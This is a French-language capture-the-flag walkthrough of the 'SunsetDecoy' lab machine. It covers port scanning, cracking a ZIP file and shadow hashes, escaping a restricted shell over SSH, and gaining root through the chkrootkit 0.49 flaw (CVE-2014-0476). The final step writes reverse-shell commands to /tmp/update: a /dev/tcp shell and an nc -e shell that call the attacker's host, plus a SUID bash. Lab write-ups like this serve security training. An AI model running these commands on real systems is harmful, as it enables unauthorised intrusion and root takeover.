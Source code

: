 # SunsetDecoy

	sudo masscan -p1-65535,U:1-65535 192.168.249.85 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 192.168.249.85 -oN nmap.txt
	feroxbuster --silent -u http://192.168.249.85

Scans classiques.

	PORT STATE SERVICE VERSION  
	22/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)  
	80/tcp open http Apache httpd 2.4.38

Le site web du port 80 ne contient qu'un fichier ZIP protégé par un mot de passe faible : 

	wget http://192.168.249.85/save.zip
	unzip save.zip
	zip2john save.zip > hash.txt
	john hash.txt
	unzip save.zip

	cat ~/save/etc/passwd
	cat ~/save/etc/shadow

Il y a deux comptes dont on a le hash : root et 296640a3b825115a47b68fc44501c828

	hashcat -m 1800 -a 0 '$6$RucK3DjUUM8TjzYJ$x2etp95bJSiZy6WoJmTd7UomydMfNjo97Heu8nAob9Tji4xzWSzeE0Z2NekZhsyCaA7y/wbzI.2A2xIL/uXV9.' ~/wordlists/rockyou.txt --force
	hashcat -m 1800 -a 0 '$6$x4sSRFte6R6BymAn$zrIOVUCwzMlq54EjDjFJ2kfmuN7x2BjKPdir2Fuc9XRRJEk9FNdPliX4Nr92aWzAtykKih5PX39OKCvJZV0us.' ~/wordlists/rockyou.txt --force

Pas de résultats pour root mais le deuxième compte a bien été cracké.

	ssh 296640a3b825115a47b68fc44501c828@192.168.249.85

On arrive dans un shell restreint, je n'ai pas trouvé de solution facile pour le contourner de l'intérieur. Mais en se reconnectant avec l'option "--noprofile" on peut facilement désactiver ces sécurités.

	exit
	ssh 296640a3b825115a47b68fc44501c828@192.168.249.85 -t "bash --noprofile"
	export PATH=$PATH:/usr/bin:/bin
	cat ../local.txt

### Élévation de privilèges : 

Il y a un exécutable "honeypot.decoy" dans le dossier, qui permet de faire quelques tâches comme afficher un calendrier, lancer un scan antivirus ou redémarrer entre autres. Le code source est également dans le dossier mais n'est pas lisible. Les deux fichiers appartiennent à root.

J'ai décidé d'espionner ce programme avec Pspy et de tester chaque option : 

	ssh 296640a3b825115a47b68fc44501c828@192.168.249.85 -t "bash --noprofile"
	wget http://192.168.45.158/pspy64 
	chmod u+x pspy64
	./pspy64
	==========
	./honeypot.decoy
	...

Après avoir attendu un peu et fait quelques tests, j'ai vu une ligne intéressante passer :

> 2023/07/21 14:01:03 CMD: UID=0 PID=2823 | /bin/sh /root/chkrootkit-0.49/chkrootkit

Voir : https://vk9-sec.com/chkrootkit-0-49-local-privilege-escalation-cve-2014-0476/

	echo "/usr/bin/sh -i >& /dev/tcp/192.168.45.158/443 0>&1" >> /tmp/update
	echo "/usr/bin/nc 192.168.45.158 443 -e /bin/sh" >> /tmp/update
	echo "/usr/bin/chmod 4777 /bin/bash" >> /tmp/update
	==========
	rlwrap nc -nvlp 443
	...
	whoami
	cat /root/proof.txt
